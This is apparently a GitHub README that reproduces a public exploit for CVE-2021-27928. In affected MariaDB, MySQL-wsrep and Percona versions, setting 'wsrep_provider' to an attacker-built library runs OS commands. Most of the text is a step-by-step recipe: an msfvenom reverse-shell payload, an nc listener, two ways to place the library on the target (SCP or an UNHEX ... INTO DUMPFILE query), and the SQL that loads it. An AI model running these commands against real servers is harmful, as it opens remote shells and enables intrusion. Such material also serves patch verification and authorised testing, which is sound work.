



## Information

~~~
Exploit Title: MariaDB 10.2 /MySQL - 'wsrep_provider' OS Command Execution
Date: 03/18/2021
Exploit Author: Central InfoSec
Version: 
	MariaDB 10.2 before 10.2.37
	10.3 before 10.3.28
	10.4 before 10.4.18 
	10.5 before 10.5.9
Percona Server through 2021-03-03; and the wsrep patch through 2021-03-03 for MySQL
Tested on: Linux
CVE : CVE-2021-27928
~~~

## How to Exploit

Step 1: Create the reverse shell payload

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f elf-so -o CVE-2021-27928.so
```



Step 2: Start a listener

```
nc -lnvp <port>
```



Step 3: Copy the payload to the target machine

**Via SCP**

```
scp CVE-2021-27928.so <user>@<ip>:/tmp/CVE-2021-27928.so
```
**Via Dumpfile**
```
python3 -c 'print(open("CVE-2021-27928.so", "rb").read().hex())'
mysql -u <user> -p -h <ip>
SELECT UNHEX('PYTHON_OUTPUT') into dumpfile '/tmp/CVE-2021-27928.so';
```

Step 4：Execute the payload
```
mysql -u <user> -p -h <ip>
SET GLOBAL wsrep_provider="/tmp/CVE-2021-27928.so";
```



## Reference

https://www.exploit-db.com/exploits/49765

https://jira.mariadb.org/browse/MDEV-25179

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-27928
